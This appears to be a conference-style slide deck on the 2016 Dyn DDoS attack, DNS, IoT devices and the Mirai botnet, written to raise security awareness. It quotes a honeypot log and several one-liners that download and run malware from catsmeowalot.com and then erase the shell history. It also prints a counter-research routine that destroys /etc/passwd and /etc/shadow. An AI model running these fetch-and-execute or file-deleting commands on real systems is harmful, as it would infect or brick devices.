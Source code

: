 #HSLIDE

## About Dyn, Mirai and cats
* What happened 21.Oct 2016
* What is DNS and why we should care
* What is/are IoT
* How to build a IoT botnet yourself and how to track one
* Why black- and whitehat hackers love cat pictures?

#HSLIDE

![Error](media/DNS_no_response.png)

#VSLIDE

Early Friday morning, __Dyn__, a company that provides __Domain Name Servers (DNS)__ for a 
lot of heavily trafficked websites and services, came under a __massive Distributed 
Denial of Service (DDoS)__ attack. This has disrupted access to many sites for people 
across the U.S. Yes, it’s why your __Spotify__ app is offline, why you can’t stream __Netflix__, 
and why __Twitter__ won’t load. 

#VSLIDE

## Key Findings:

* The Friday October 21, 2016 attack has been analyzed as a complex & sophisticated attack, using maliciously targeted, masked TCP and UDP traffic over port 53.
* Dyn confirms Mirai botnet as primary source of malicious attack traffic.
* Attack generated compounding recursive DNS retry traffic, further exacerbating its impact.

#HSLIDE

## DNS

<pre>
;; QUESTION SECTION:
;spotify.com.                   IN      A

;; ANSWER SECTION:
spotify.com.            300     IN      A       194.132.197.147
spotify.com.            300     IN      A       194.132.198.165
spotify.com.            300     IN      A       194.132.198.228

;; AUTHORITY SECTION:
spotify.com.            300     IN      NS      ns3.spotify.com.
spotify.com.            300     IN      NS      ns4.spotify.com.
spotify.com.            300     IN      NS      ns5.spotify.com.
spotify.com.            300     IN      NS      ns2.spotify.com.

;; ADDITIONAL SECTION:
ns2.spotify.com.        300     IN      A       194.132.168.117
ns3.spotify.com.        300     IN      A       193.235.32.2
ns4.spotify.com.        300     IN      A       194.132.162.51
ns5.spotify.com.        300     IN      A       194.68.28.185
</pre>

#VSLIDE?image=media/43.png

#VSLIDE?image=media/46.png

#VSLIDE

## Dyn service network
![Dyn network](media/dyn-network-map.png)

#HSLIDE

##IOT

"connecting any device with an on and off switch to the Internet (and/or to each other). This includes everything from cellphones, coffee makers, washing machines, headphones, lamps, wearable devices and almost anything else you can think of.  This also applies to components of machines, for example a jet engine of an airplane or the drill of an oil rig."

__... what about artificial cardiac pacemaker?__

#VSLIDE

## How businesses see IoT ..

![MS](media/business_iot.png)

#VSLIDE

## How hackers see IoT ..

![IPCAM](media/1458871382569824928.jpg)

#VSLIDE

Mirai (Japanese for "the future") is malware that turns computer systems running Linux into remotely controlled "bots", that can be used as part of a botnet in large-scale network attacks. It primarily targets online consumer devices such as remote cameras and home routers 

*/WikiPedia/*

#VSLIDE

History ...

#VSLIDE

Current ...

#HSLIDE

<pre>
2016-10-28 05:00:46+0200 admin trying auth password
2016-10-28 05:00:46+0200 login attempt [admin/qwerty] succeeded
2016-10-28 05:00:49+0200 admin authenticated with password
2016-10-28 05:00:50+0200 executing command "cd /tmp; 
  wget http://catsmeowalot.com/lmao.sh || curl -O http://catsmeowalot.com/lmao.sh; 
  chmod 777 lmao.sh; sh lmao.sh; busybox tftp catsmeowalot.com  -c get tftp1.sh; 
  chmod 777 tftp1.sh; sh tftp1.sh; busybox tftp -r tftp2.sh -g catsmeowalot.com; 
  chmod 777 tftp2.sh; sh tftp2.sh; rm -rf lmao.sh tftp1.sh tftp2.sh; cd; 
  rm -rf ./bash_history; history -c"
2016-10-28 05:00:50+0200 Command found: history -c
2016-10-28 05:00:50+0200 Closing TTY Log: log/tty/20161028-050050-abab97cc-0e.log after 0 seconds
2016-10-28 05:00:50+0200 honeypot terminal protocol connection lost disconnected
</pre>

#VSLIDE

<pre>
cd /tmp && wget -q http://catsmeowalot.com/ayylmao && 
  chmod +x ayylmao && ./ayylmao
cd /tmp && wget -q http://catsmeowalot.com/ayymips && 
  chmod +x ayymips && ./ayymips
cd /tmp && wget -q http://catsmeowalot.com/jackmysh4 && 
  chmod +x jackmysh4 && ./jackmysh4
cd /tmp && wget -q http://catsmeowalot.com/ayyx86 && 
  chmod +x ayyx86 && ./ayyx86
 ...
</pre>

#VSLIDE

## Meet the Blackhat! 

![Blackhat](media/catsmeowalot.png)

#VSLIDE

## Meet the Whitehat! 

![Whitehat](media/malwaretech.png)

#VSLIDE

#VSLIDE

## Should/could we brick .. *pardon* .. clean the "world"?

*Mirai-Counter-Research/mirai/bot/patch.c*

<pre>
int patch_password()
{
	//TODO: Less intrusive cases

	//Last resort -- brick the machine
	//TODO:
	return (unlink("/etc/passwd") && 
   unlink("/etc/passwd-") && 
   unlink("/etc/shadow") && 
   unlink("/etc/shadow-"));
}
</pre>

#HSLIDE

## Outcome, so far
* *Skiddos* did excellent awareness rising capaign, what's next?
  * INDUSTRIAL INTERNET SECURITY FRAMEWORK (http://www.iiconsortium.org/IISF.htm, ~170p)
  * Future-proofing the Connected World (https://downloads.cloudsecurityalliance.org/assets/research/internet-of-things/future-proofing-the-connected-world.pdf, ~70p)
  * ... probably many more
* DDoS as a service is off the shelf for now ...

#HSLIDE

Slides and more on Anycast and DNS:

<pre>
http:// www.pch.net / resources / papers / dns-service-architecture

Bill Woodcock 
woody@pch.net

Gaurab Raj Upadhaya
gaurab@pch.net
</pre>

